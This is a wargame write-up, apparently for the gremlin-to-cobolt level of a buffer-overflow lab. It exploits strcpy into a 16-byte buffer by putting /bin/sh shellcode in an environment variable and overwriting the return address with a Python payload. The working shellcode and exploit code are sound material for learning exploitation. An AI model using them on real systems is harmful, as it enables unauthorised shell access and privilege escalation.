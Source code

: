 # Vulnerability
In gremlin's home directory, There is a file named as cobolt, and C code is provided, too.

Little difference is buffer size is changed 256 to 16 bytes. Now, It is not able to give shellcode into buffer.
```c
char buffer[16];
strcpy(buffer, argv[1]);
```
It uses strcpy to copy argv[1] to buffer[16].

strcpy() function doesn't check parameter's length so I can overwrite SFP & RET Address.

# Exploitation
To check whether dummy bytes exist or not, disassemble cobolt's main function:
```assembly
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %esp,%ebp
0x8048433 <main+3>:	sub    $0x10,%esp
```
It only uses ```0x10```(16) bytes, No any dummy bytes.

Then, the structure of cobolt would be like:
```
---------------------------------
| buffer[16] | SFP[4] | RET[4] |
---------------------------------
```

I will write NOP & Shellcode into Environment Variable and write the variable's address into RET Address.

To get the address, write a simple C code:
```c
#include <stdio.h>
int main(void) {
        printf("Address of SHELLCODE: 0x%x\n", getenv("SHELLCODE"));
}
```

Export environment variable, compile c code, get SHELLCODE's address:
```bash
[gremlin@localhost gremlin]$ export SHELLCODE="`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`"
[gremlin@localhost gremlin]$ 
[gremlin@localhost gremlin]$ gcc -o ./getsh ./getsh.c 
[gremlin@localhost gremlin]$ ./getsh 
Address of SHELLCODE: 0xbffffe67
[gremlin@localhost gremlin]$ 
```

```
---------------------------------------------
| NOP[16] | SFP[4] | RET[4] (env's address) |
---------------------------------------------
```

# Payload
```python
import os
from struct import *

payload = ""
payload = payload + "\x90" * 16
payload = payload + "AAAA" # SFP
payload = payload + "\x67\xfe\xff\xbf" # RET

os.execv('/home/gremlin/cobolt', ["", payload])
```
